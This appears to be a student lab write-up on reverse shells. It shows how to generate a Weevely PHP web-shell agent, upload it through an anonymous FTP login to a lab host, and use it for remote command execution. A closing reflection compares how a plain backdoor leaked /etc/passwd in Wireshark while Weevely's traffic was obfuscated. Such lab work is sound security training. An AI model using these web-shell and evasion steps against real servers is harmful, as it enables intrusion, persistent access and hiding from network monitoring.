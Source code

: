 # Reverse Shells

### Lab 8.1 Weevley

Weevley is a built in tool included within Kali. Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime. Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.

The Usage is pretty simple. The commands below show the generation of a php agent that will then get upoaded to a webserver.
```
weevely generate <password> <path>
weevely <URL> <password> [cmd]
```

A password is needed to encrypt the agent

The upload process to our FTP is simple. Triggering an FTP session by using `ftp anonymous@10.0.5.25` then moving directories to `upload`. From here we can upload the file directly to the right directory. That command is `put`

`put pippin_agent.php `

With a succsessful upload we can now utilize the agent.

We can run the agent by using `weevely http://10.0.5.25/upload/pippin_agent.php <insert password>`

From here we now have a webshell into 10.0.5.25 and can run commands. 

#### Refelction

The diffrence in stealth is made clear when using weevely compared to a curl using simple_backdoor. The Wireshark stream showed a comlpete detail and display of the leaked etc/passwd/ output when using simple_backdoor.php. Using Weevely there was obfuscation in the TCP stream that Wireshark couldnt blantanly see. 
